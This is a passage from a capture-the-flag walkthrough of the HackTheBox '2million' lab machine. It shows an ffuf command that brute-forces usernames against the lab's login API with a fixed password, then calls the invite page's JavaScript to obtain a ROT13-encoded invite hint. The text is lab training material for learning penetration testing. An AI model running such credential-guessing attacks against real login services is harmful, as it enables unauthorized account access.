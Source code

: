 We try logging in with usernames in hall of fame: filippos, stefano118, alamot, arkantolo, KNX, ahmed, scorpion, eks, zc00l, n0decaf

```bash
ffuf -u http://2million.htb/api/v1/user/login \
     -X POST \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "email=FUZZ@2million.htb&password=admin" \
     -w users \
     -fc 302
```

```
:: Progress: [10/10] :: Job [1/1] :: 1250 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

None of them worked.

We check `this` property in `/invite` web page:

```javascript
this;
```

```
Window http://2million.htb/invite#
​
"$"
cancelRequestAnimFrameclamp
hexToRgb
isInArray
jQuery
jQuery220025084560406000881makeInviteCode
​​arguments
​​caller
​​length
​​name
​​prototype
​​<prototype>pJS
pJSDomparticlesJS
requestAnimFrameverifyInviteCode
<default properties><prototype>
```


## User Exploitation


```javascript
this.makeInviteCode();
```

```json
{
    "0": 200,
    "success": 1,
    "data": {
        "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
        "enctype": "ROT13"
    },
    "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```
